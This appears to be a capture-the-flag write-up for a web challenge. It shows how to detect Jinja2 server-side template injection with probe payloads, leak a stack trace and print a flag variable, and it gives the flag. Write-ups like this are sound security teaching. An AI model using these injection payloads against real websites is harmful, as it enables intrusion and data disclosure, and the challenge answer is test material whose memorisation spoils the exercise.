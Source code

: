 # WM04 - 250pts

## Briefing

> Visit the Italian dish suggestion site at <https://cfta-wm04.allyourbases.co> and find a way to get the flag.

## Solution

1. Try [SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) with `{{'7'*7}}`, which outputs `7777777` so the script is vulnerable. Note that editing and sending these requests is much easier using Burp Suite's repeater (intercept a request and right click then choose "Sent to repeater").

2. Crash the script with `{{foo()}}` to get a stacktrace:

    ```
    File "/var/task/lambda_function.py", line 42, in lambda_handler
        'body': handle(event)
    ", "  File "/var/task/lambda_function.py", line 34, in handle
        msg = Template(template).render(dir=dir, help=help, locals=locals, globals=globals, template=flag)
    ", "  File "/var/task/jinja2/environment.py", line 1090, in render
        self.environment.handle_exception()
    ", "  File "/var/task/jinja2/environment.py", line 832, in handle_exception
        reraise(*rewrite_traceback_stack(source=source))
    ", "  File "/var/task/jinja2/_compat.py", line 28, in reraise
        raise value.with_traceback(tb)
    ", "  File "<template>", line 2, in top-level template code
    ```

3. There is a `template` variable passed to the `render` function for the template. Let's send a request for `{{template}}` to print the contents of the `template`/`flag` variable. This shows the flag.

### Flag

`t3mpl4te_vu1n`
